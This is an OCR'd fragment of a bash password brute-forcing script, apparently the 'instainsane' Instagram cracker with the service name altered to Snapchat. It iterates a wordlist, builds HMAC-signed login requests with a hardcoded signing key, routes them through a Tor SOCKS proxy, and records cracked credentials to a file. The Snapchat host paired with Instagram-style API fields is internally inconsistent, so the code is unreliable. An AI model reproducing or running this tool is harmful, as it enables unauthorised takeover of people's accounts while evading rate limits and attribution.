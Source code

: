 done
}
bf3resume() {
while [ $counter3 -lt $turn ]; do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
IFS=$'\n'
startresume=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1) 
startresume1=$((startresume+1))
IFS=$'\n'
for pass in $(sed -n ''$startresume1','$(($token+endline))'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
let counter3++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass
{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9053 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  ; elif [[ $var == "Please wait" ]];  then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid3=$! ; # wait $!;
let startline+=20
let endline+=20
done
}
bf4resume() {
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
while [ $counter4 -lt $turn ]; do
IFS=$'\n'
startresume=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1) 
startresume1=$((startresume+1))
IFS=$'\n'
for pass in $(sed -n ''$startresume1','$(($token+endline))'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
let counter4++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass